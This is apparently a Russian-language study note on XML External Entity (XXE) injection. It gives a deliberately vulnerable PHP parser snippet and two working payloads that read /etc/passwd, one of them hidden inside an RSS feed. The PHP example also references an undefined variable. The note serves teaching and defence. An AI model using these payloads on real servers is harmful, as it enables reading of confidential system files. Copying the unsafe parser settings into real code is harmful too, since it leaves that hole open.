

# XML External Entity (XXE)

XXE ( XML External Entity ) -  внедрение внешних вредоносных XML сущностей во входные данные, которые обрабатываются приложением. Уязвимость появляется при условии если приложение принимает XML файл или тело XML файла из пользовательского ввода и после этого обрабатываеться XML парсером. Специально созданная полезная нагрузка XML, отправленная на XML-парсер сервера, может привести к компрометации файлов в файловой структуре этого сервера. 

Внешние сущности XML - это ссылки на внешние ресурсы или сущности, которые могут быть определены в отдельных документах и затем использованы в других местах.

Пример -> Внешние сущности XML
```XML
<!DOCTYPE example [
  <!ENTITY name "Дэл Спунер">
]>
<user>
  <name>&name;</name>
  <age>30</age>
</user>

```

После обработки XML-документа в теге `<name>` будет "Дэл Спунер"

XXE часто используется для компрометации файлов, таких как `etc/passwd`, который содержит базовую информацию о пользователях на системе Unix.



Пример `->`

```PHP
<?php
	libxml_disable_entity_loader (false);
	$xmlfile = file_get_contents("php://input");
	$dom = new DOMDocument();
	$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
	$creds = simplexml_import_dom($dom);
	$foo = $text->foo;
	echo "foo = $foo";
?> 
```

__Payload__
```XML
<!DOCTYPE example [
  <!ENTITY readfile SYSTEM "file:///etc/passwd">
]>
<user>
  <name>&readfile;</name>
  <age>30</age>
</user>
```

__Payload__
```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE title [ <!ELEMENT title ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<rss version="2.0" xmlns:atom="http://www.w3.org/2005/Atom">
<channel>
    <title>Удаленка - это свобода</title>
    <link>http://schastie.com/</link>
    <description>Но не точно</description>
    <lastBuildDate>Mon, 03 Feb 2201 00:00:00 -0000</lastBuildDate>
    <item>
        <title>&xxe;</title>
        <link>http://schastie.com</link>
        <description>Возможно</description>
        <author>author@genshin.com</author>
        <pubDate>Mon, 03 Feb 2201 00:00:00 -0000</pubDate>
    </item>
</channel>
</rss>
```

#CWE-611
#CWE-776
